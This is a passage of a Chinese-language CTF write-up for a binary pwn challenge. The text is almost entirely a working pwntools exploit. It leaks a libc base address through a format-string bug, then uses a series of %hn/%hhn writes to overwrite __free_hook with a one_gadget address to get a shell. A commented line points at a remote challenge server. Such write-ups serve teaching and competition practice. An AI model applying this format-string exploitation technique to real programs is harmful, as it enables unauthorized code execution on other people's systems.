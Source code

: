 [![](assets/1701612457-b10ea385030be0b37ab285a221efbb80.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623215712-da525b62-11cd-1.png)  
这里再执行完上面最后一步就可以修改完了，然后执行free函数就直接getshell了。

## exp (本地)

```plain
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
context(os='linux',arch='amd64',log_level='debug')

p=process('./pwn')
#p=remote('60.204.130.55',10010)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')

sla('Do you know who the best pwner is?\n','TokameinE_is_the_best_pwner\0')

sla('What do you want to say?\n','%18$p')
ru('0x')
#gdb.attach(p)
libcbase = int(r(12),16) - 0x5f1168
leak('libcbase',libcbase)
og = libcbase + 0x4527a
free_hook = libc.sym["__free_hook"] + libcbase
leak('og',og)
leak('(og//0x10000)&0xffff',(og//0x10000)&0xffff)
leak('free_hook',free_hook)
free = free_hook//0x100000000
leak('free',free)
leak('(free_hook//0x10000)&0xff',(free_hook//0x10000)&0xff)
free1 = free_hook//0x10000000000
leak('free1',free1)
#%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-
gdb.attach(p)
num=input()#num = 72
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(free_hook&0xffff)+'c%10$hn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(num+2)+'c%8$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str((free_hook//0x10000)&0xff)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(og&0xffff)+'c%29$hn')
#gdb.attach(p)
```